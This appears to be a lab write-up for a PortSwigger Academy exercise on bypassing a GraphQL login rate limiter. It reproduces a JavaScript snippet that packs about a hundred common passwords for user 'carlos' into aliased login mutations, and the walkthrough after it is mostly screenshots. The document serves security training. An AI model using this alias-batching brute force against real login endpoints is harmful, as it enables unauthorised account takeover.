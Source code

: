 Title: Bypassing GraphQL brute force protections
Level: PRACTITIONER
Desc:  The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.
To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of authentication lab passwords as your password source.
Learn more about Working with GraphQL in Burp Suite. 

Tip: This lab requires you to craft a large request that uses aliases to send multiple login attempts at the same time. As this request could be time-consuming to create manually, we recommend you use a script to build the request.
The below example JavaScript builds a list of aliases corresponding to our list of authentication lab passwords and copies the request to your clipboard. To run this script:
```
    Open the lab in Burp's browser.
    Right-click the page and select Inspect.
    Select the Console tab.
    Paste the script and press Enter.
```
You can then use the generated aliases when crafting your request in Repeater.
```
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

# Walkthrough:
<img width="1287" height="515" alt="image" src="https://github.com/user-attachments/assets/e4747605-0d0b-434b-8b56-1a29ec225d1f" />

After sending copule requests:
<img width="1371" height="587" alt="image" src="https://github.com/user-attachments/assets/e0dbff13-eb5b-40b3-ac36-632e13202c4e" />


<img width="1354" height="760" alt="image" src="https://github.com/user-attachments/assets/292499c1-10cb-4eef-abe0-6e7df45459af" />

<img width="536" height="162" alt="image" src="https://github.com/user-attachments/assets/54734dad-24f1-47d3-807a-3424457c3753" />

<img width="653" height="280" alt="image" src="https://github.com/user-attachments/assets/194033df-e82d-44d5-93c8-36d8443ec8f7" />

